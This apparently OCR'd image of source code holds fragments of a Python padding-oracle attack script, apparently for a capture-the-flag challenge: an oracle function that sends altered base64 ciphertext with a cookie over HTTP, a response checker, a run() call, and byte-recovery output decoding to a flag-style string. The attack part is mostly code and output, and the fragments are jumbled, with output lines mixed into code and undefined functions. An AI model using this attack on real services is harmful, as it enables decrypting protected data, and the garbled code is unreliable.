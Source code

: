 ```python
							[36m[1m[+][0m Found 16 bytes : 47517e7e227d0a0a0a0a0a0a0a0a0a0a
							
                            #找到第一个block的最后一个字节
                            [+] HTTP  200 OK
							[+] Block M_Byte : 7b22666c6167223a20225e464c41475e
							[+] Block C_{i-1}: 00685C52A2E60662802DBC2D025A28CD
							[+] Block Padding: 10101010101010101010101010101010

							[36m[1m[+][0m Found 16 bytes : 7b22666c6167223a20225e464c41475e
                        bytes_found = "".join(valide_value)
                    

def call_oracle(host, cookie, url, post, method, up_cipher):
    if post:
        params = urlencode({post})
    else:
        params = urlencode({})
    headers = {
        "Content-type": "application/x-www-form-urlencoded",
        "Accept": "text/plain",
        "Cookie": cookie,
    }
    conn = http.client.HTTPConnection(host)
    base64Data = base64.standard_b64encode(bytearray.fromhex(up_cipher))
    base64Data = base64Data.decode('ascii').replace('=', '~').replace('/', '!').replace('+', '-')
    print("\nbase64Data")
    print(url + base64Data)
    conn.request(method, url + base64Data, params, headers)
    response = conn.getresponse()
    return conn, response
                                          
def test_validity_customize(response, error):
	try:
		data = response.read().decode('utf-8')
		#print(data)
		if error in data:
		    return 0
		else:	
			print("response:")
			print(data)
			return 1
	except Exception as e:
		print(e)
		pass
	return 0
                                          
run(
        base64.standard_b64decode(args.cipher.replace('~', '=').replace('!', '/').replace('-', '+')),
        args.length_block_cipher,
        args.host,
        args.urltarget,
        args.cookie,
        args.method,
        args.post,
        args.error,
    )
7B22666C6167223A20225E464C41475E
38393766656530303937383365373134
65373566663364396232353665336436
64333337373135643931333236336463
33386437663633366533393163633532
24464C414724222C20226964223A2022
```